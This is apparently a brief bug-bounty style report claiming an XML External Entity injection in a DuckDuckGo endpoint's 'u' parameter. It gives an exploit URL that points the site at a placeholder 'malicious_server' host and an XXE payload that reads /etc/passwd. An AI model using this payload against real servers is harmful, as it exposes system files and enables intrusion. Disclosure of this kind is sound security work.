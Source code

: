
Severity	Critical (9 ~ 10

An XML External Entity (XXE) injection vulnerability was discovered in the x.js endpoint on https://duckduckgo.com via u parameter. 

URL：https://duckduckgo.com/x.js?u=http://malicious_server/xxe.xml

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>    
```